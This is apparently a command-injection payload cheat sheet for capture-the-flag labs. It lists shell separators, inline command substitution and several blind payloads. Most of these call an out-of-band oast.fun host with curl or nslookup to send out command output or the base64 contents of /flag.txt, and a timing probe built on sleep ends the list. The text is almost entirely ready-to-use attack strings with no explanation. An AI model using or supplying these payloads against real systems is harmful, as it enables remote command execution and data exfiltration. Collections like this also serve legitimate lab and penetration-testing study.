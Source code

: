 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(hostname | cut -c 1-1) = "0" ]; then sleep 10; fi
```

